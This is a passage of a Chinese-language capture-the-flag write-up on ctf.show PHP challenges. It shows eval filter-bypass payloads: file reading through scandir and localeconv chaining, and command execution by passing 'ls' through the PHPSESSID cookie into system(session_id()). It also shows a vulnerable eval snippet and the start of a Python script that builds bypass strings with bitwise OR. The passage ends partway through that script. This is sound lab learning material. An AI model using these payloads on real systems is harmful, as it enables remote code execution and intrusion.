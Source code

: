 这里把中文括号过滤了，并没有过滤英文括号

所以我们可以使用前面的payload：

```php
?c=highlight_file (next(array_reverse(scandir(current(localeconv())))));
```



还有一种方法，我们可以使用它来获取当前目录下文件列表：

```php
?c=session_start();system(session_id());
```

**session_id()函数**

> **session_id()** 返回当前会话ID。   如果当前没有会话，则返回空字符串（`""`）。  

cookie中:

```php
PHPSESSID=ls
```

<img src="https://s2.loli.net/2022/12/23/yAz19K5rSs4EatO.png" alt="image-20221223194755777" style="zoom: 25%;" />





### web41

```php
 <?php
if(isset($_POST['c'])){
    $c = $_POST['c'];
if(!preg_match('/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i', $c)){
        eval("echo($c);");
    }
}else{
    highlight_file(__FILE__);
}
?> 
```

这里过滤了数字，字母，异或^，取反~,自增+  	

但是没有过滤或 | ，于是可以通过或 | 构造出我们想要的参数，如 system('ls'); 

原理：使用除了正则之外的字符来使用或运算产生我们想要的字符串

我们可以使用脚本：

```python
import re
import requests

url="http://457b621b-6658-46c5-bf8c-65c0b8066bb6.challenge.ctf.show/"   # 自己修改url

a=[]
ans1=""
ans2=""
for i in range(0,256):
    c=chr(i)
    tmp = re.match(r'[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-',c, re.I)   # 正则过滤的参数
    if(tmp):
        continue
        #print(tmp.group(0))
    else:
        a.append(i)

# eval("echo($c);");
```